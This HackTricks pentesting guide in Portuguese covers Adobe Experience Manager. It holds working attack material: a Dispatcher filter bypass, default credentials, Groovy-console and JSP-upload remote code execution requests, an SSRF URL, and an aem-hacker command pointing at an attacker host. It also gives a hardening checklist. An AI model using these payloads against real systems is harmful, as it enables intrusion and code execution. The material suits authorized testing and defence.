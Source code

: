 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, parte do Adobe Experience Cloud) é um CMS corporativo que roda sobre Apache Sling/Felix (OSGi) e um Repositório de Conteúdo Java (JCR).
> Do ponto de vista de um atacante, instâncias do AEM frequentemente expõem endpoints de desenvolvimento perigosos, regras de Dispatcher fracas, credenciais padrão e uma longa lista de CVEs que são corrigidos a cada trimestre.

A lista de verificação abaixo foca na **superfície de ataque (unauth) acessível externamente** que continua aparecendo em engajamentos reais (2022-2025).

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
Outros indicadores rápidos:
* O caminho estático `/etc.clientlibs/` presente (retorna JS/CSS).
* A página de login em `/libs/granite/core/content/login.html` com o banner “Adobe Experience Manager”.
* O comentário `</script><!--/* CQ */-->` no final do HTML.

---

## 2. Endpoints não autenticados de alto valor

Caminho | O que você obtém | Notas
---- | ------------- | -----
`/.json`, `/.1.json` | Nós JCR via **DefaultGetServlet** | Frequentemente bloqueado, mas o *Dispatcher bypass* (veja abaixo) funciona.
`/bin/querybuilder.json?path=/` | API QueryBuilder | Vazamento da árvore de páginas, caminhos internos, nomes de usuários.
`/system/console/status-*`, `/system/console/bundles` | Console OSGi/Felix | 403 por padrão; se exposto e credenciais encontradas ⇒ RCE de upload de pacote.
`/crx/packmgr/index.jsp` | Gerenciador de Pacotes | Permite pacotes de conteúdo autenticados → upload de payload JSP.
`/etc/groovyconsole/**` | Console Groovy AEM | Se exposto → execução arbitrária de Groovy / Java.
`/libs/cq/AuditlogSearchServlet.json` | Logs de auditoria | Divulgação de informações.
`/libs/cq/ui/content/dumplibs.html` | Dump de ClientLibs | Vetor XSS.

### Truque de bypass do Dispatcher
A maioria dos sites de produção está atrás do *Dispatcher* (proxy reverso). Suas regras de filtro podem ser contornadas adicionando uma extensão estática permitida **após um ponto e vírgula ou nova linha codificada**:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
Uma única solicitação como a acima frequentemente revela nós de perfil de usuário com endereços de e-mail. A P-T Partners publicou boas orientações sobre essa vulnerabilidade. 【】

---

## 3. Configurações incorretas comuns (ainda vivas em 2025)

1. **Servlet POST anônimo** – `POST /.json` com `:operation=import` permite que você crie novos nós JCR. Bloquear `*.json` POST no Dispatcher resolve isso. 【】
2. **Perfis de usuário legíveis por todos** – ACL padrão concede `jcr:read` em `/home/users/**/profile/*` para todos.
3. **Credenciais padrão** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** habilitado ⇒ XSS refletido via `?debug=layout` (CVE-2016-7882, ainda encontrado em instalações legadas 6.4).
5. **Console Groovy exposto** – execução remota de código ao enviar um script Groovy:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. Vulnerabilidades recentes (cadência de pacotes de serviço)

Trimestre | CVE | Afetado | Impacto
------- | --- | -------- | ------
Dez 2024 | **CVE-2024-43711** | 6.5.21 e anteriores | Validação de entrada inadequada → **Execução de código arbitrário** (requer autenticação de baixo privilégio). 【】
Dez 2024 | CVE-2024-43724/26 | 6.5.21 e anteriores | XSS DOM / Armazenado no Assistente de Mover Página. 【】
Dez 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | XSS baseado em DOM via URL manipulada. 【】
Dez 2022 | CVE-2022-30683 | ≤ 6.5.13 | Falha de design criptográfico → descriptografia secreta (necessita de credenciais de baixo privilégio). 【】

Sempre verifique o boletim *APSB* correspondente ao pacote de serviço do cliente e solicite o mais recente **6.5.22** ou *Cloud Service 2024.11*.

---

## 5. Trechos de exploração

### 5.1 RCE via bypass do dispatcher + upload de JSP
Se a gravação anônima for possível:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Agora solicite `/content/evil.jsp` – o JSP é executado com o usuário do processo AEM.

### 5.2 SSRF para RCE (histórico < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py` do **aem-hacker** automatiza toda a cadeia. 【】

---

## 6. Ferramentas

* **aem-hacker** – script de enumeração tipo canivete suíço, suporta bypass de dispatcher, detecção de SSRF, verificações de credenciais padrão e mais.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Força bruta de Conteúdo** – solicita recursivamente `/_jcr_content.(json|html)` para descobrir componentes ocultos.
* **osgi-infect** – faça upload de um pacote OSGi malicioso via `/system/console/bundles` se as credenciais estiverem disponíveis.

---

## 7. Lista de verificação de endurecimento (para as recomendações do seu relatório)

1. Mantenha a instância na **última atualização cumulativa** (a partir de jul 2025: 6.5.22).
2. Remova/rotacione contas padrão; imponha SSO/SAML.
3. Reforce os **filtros do Dispatcher** – negue `;`, novas linhas codificadas e `*.json` ou `*.querybuilder.json` para usuários anônimos.
4. Desative ou proteja consoles (`/system/console`, `/crx/*`, `/etc/groovyconsole`) com listas de permissão de IP.
5. Aplique o pacote *Endurecimento de Permissão Anônima* enviado pela Adobe.

## Referências

* Adobe Security Bulletin APSB24-69 – “Atualizações de segurança para Adobe Experience Manager (dez 2024)”.
* 0ang3el – ferramenta aem-hacker (GitHub).
{{#include ../../banners/hacktricks-training.md}}
